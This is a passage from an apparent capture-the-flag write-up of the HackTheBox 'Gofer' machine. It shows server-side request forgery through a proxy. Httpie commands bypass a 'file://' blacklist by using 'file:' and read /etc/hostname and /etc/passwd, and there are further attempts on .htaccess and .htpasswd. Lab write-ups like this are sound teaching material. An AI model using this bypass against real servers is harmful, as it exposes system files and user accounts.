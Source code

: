 I experimented with various bypass attempts and observed that `0.0.0.0` was not blacklisted. However, despite this bypass, it didn't provide a solution. I also attempted to access the filtered SMTP port, but unfortunately, it did not yield any results.

```bash
❯ http -pb POST proxy.gofer.htb/index.php url==http://0.0.0.0:25
<!-- Welcome to Gofer proxy -->

```

#### SSRF File Read

I made an effort to use [different URIs](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#file), including `file://`, but found that it was blacklisted.

```bash
> http -pb POST proxy.gofer.htb/index.php url==file:///etc/hostname
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: file:// !</body></html>
```

However, I noticed that by using "file:" without the double slashes, I was able to make it work and dump the contents of `/etc/hostname`

```bash
> http -pb POST proxy.gofer.htb/index.php url==file:/etc/hostname
<!-- Welcome to Gofer proxy -->
gofer.htb
1
```

Using the same bypass, I successfully retrieved users with a login shells, and found four different users.

```bash
> http -pb POST proxy.gofer.htb/index.php url==file:/etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
jhudson:x:1000:1000:Jocelyn Hudson,,,:/home/jhudson:/bin/bash
jdavis:x:1001:1001::/home/jdavis:/bin/bash
tbuckley:x:1002:1002::/home/tbuckley:/bin/bash
ablake:x:1003:1003::/home/ablake:/bin/bash
```

I made an attempt to read the `.htaccess` and `.htpasswd` files for the proxy virtual host, which required basic authentication, but unfortunately, it didn't yield any useful information.

```bash
> http -pb POST proxy.gofer.htb/index.php url==file:/var/www/proxy/.htaccess
<!-- Welcome to Gofer proxy -->
RewriteEngine on
RewriteRule ^.+$ /index.php [L]
1

> http -pb POST proxy.gofer.htb/index.php url==file:/var/www/proxy/.htpasswd
<!-- Welcome to Gofer proxy -->
```

#### SSRF Gofer

